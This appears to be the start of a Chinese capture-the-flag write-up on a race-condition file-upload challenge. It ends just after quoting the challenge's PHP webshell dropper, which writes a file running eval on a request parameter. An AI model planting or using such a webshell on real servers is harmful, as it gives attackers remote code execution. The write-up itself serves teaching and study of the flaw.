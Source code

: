 # 条件竞争

本题是一个条件竞争漏洞，也在题目中给了关键的功能代码贴图，以及给了解题思路了：

![](imgs/16036135842482.png)   

条件竞争的话稍微和正常的上传姿势不一样，先把题目中给的 webshell 信息复制出来备用：

```php
<?php fputs(fopen('xiao.php','w'),'<?php eval($_REQUEST[1]);?>');?>
```
